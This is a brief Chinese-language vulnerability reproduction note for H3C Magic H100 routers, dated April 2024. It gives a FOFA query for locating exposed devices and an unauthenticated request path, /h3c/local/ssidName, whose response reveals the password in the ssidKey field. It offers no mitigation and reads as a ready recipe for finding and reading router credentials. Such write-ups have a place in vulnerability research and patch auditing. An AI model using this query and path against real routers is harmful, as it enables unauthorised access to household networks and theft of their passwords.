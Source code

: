 # H3C-H100路由器-信息泄露漏洞

# 一、漏洞简介
H3C Magic H100是新华三技术有限公司特别设计的全千兆家庭智能中枢。H3C-H100路由器信息泄露漏洞,可泄露用户泄露密码

# 二、影响版本
+ H3C多系列路由器

# 三、资产测绘
+ fofa`body="/grwizard/h3c.ico"`
+ 登录页面![1713637393108-3b6d8d9c-19f1-4717-92a7-27c6d8d31adb.png](./img/LtjRIrDMAFrjFfcj/1713637393108-3b6d8d9c-19f1-4717-92a7-27c6d8d31adb-323113.png)

# 四、漏洞复现
```java
/h3c/local/ssidName
```

<font style="color:rgba(0, 0, 0, 0.9);">密码就在ssidKey字段</font>

![1713637470972-d19fa597-a666-4004-a47a-025f92a849b7.png](./img/LtjRIrDMAFrjFfcj/1713637470972-d19fa597-a666-4004-a47a-025f92a849b7-813780.png)

![1713637498157-5d0026b7-2372-4d1b-825b-234215c5d89b.png](./img/LtjRIrDMAFrjFfcj/1713637498157-5d0026b7-2372-4d1b-825b-234215c5d89b-491262.png)



> 更新: 2024-04-22 13:29:11  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ddar0wbuli2xp2n8>